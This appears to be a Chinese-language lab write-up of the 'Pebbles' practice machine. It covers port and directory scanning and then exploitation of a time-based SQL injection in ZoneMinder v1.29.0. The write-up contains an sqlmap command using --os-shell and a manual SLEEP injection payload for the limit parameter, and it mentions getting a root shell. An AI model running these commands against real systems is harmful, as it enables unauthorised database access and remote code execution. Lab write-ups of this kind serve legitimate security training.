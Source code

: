 ```yaml
---
description: Linux - Easy    ZoneMinder Console v1.29.0 / SQL盲注
---
```


# ✔️ Pebbles

## 建立立足点

### 信息收集

* Nmap枚举开放端口：

```bash
nmapm -sC -sV -p- -oA pebbles 192.168.244.52 --open
```

* 简单尝试输入IP地址查看是否有Web页面，发现有个pebbles登录框，尝试几个弱口令后登录失败，所以暂时先搁置：

<figure><img src="../../.gitbook/assets/Snipaste_2024-06-15_19-31-12.png" alt=""><figcaption></figcaption></figure>

* 枚举该Web页面是否有其他隐藏文件/目录，使用gobuster扫描后发现一个/zm目录：

```bash
gobuster dir -u http://192.168.244.52 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

<figure><img src="../../.gitbook/assets/Snipaste_2024-06-15_20-41-21.png" alt=""><figcaption></figcaption></figure>

* 发现了一个正在运行的程序：ZoneMinder Console，其版本号为：v1.29.0

<figure><img src="../../.gitbook/assets/Snipaste_2024-06-15_20-51-56.png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

* 查找相关漏洞，发现该版本的ZoneMinder有个SQL注入的可利用漏洞：

<figure><img src="../../.gitbook/assets/Snipaste_2024-06-15_20-55-37.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 查看下载好的漏洞利用文件，指出/zm/index.php页面有注入漏洞，也给出了具体的Payload，并建议使用sqlmap会更容易操作，因此两种方法如下：

#### 方法1：sqlmap

* sqlmap太耗时，很鸡肋...
* 先拦截POST请求包，修改后保存文件为：sqli.req

```bash
sqlmap -r sqli.req -p limit -dbms mysql --os-shell --technique S
```



#### 方法2：手工注入

```bash
# Payload
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)'#&minTime=1466674406.084434
```



### GET SHELL

* 用sqlmap获得shell后，查看当前权限发现已经是root权限了，但是获得的shell使用起来实在是太难受了，所以执行一个反弹shell，之后查找flag即可：











{% hint style="info" %}
本例不需要进行权限提升。

<mark style="color:red;">**sqlmap就是他妈的神经病！！！**</mark>
{% endhint %}



